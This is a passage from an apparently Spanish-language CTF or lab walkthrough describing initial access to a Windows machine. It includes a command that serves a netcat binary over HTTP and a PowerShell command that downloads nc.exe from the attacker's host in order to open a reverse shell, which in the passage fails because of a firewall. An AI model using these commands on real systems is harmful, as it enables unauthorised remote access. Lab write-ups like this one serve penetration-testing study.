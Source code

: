 ## Initial access - Shell as oliver

Probaremos de compartirnos el binario de "nc.exe" para posteriormente entablarnos una Reverse Shell hacía el equipo.

```bash
ls

python3 -m http.server 80
```

<figure><img src="../../../.gitbook/assets/3106_vmware_AbiEGthayi.png" alt=""><figcaption></figcaption></figure>

Modificaremos el proyecto para que ejecute el siguiente comando, para descargarnos el binario de **nc.exe** que estamos compartiendo desde nuestro servidor web de Kali.

Verificamos que en el output de la salida de la ejecución del comando, nos devuelve error de conexión "_Unable to connect to the remote server_", lo cual nos hace pensar que hay algunas reglas de Firewall que nos están bloqueando la salida cualquier tráfico en el equipo.

```powershell
cmd /c "PowerShell -c IWR -Uri http://10.10.16.7/nc.exe -Outfile C:\ProgramData\nc.exe"
```

<figure><img src="../../../.gitbook/assets/3109_vmware_5TWfpIrlDT.png" alt="" width="563"><figcaption></figcaption></figure>
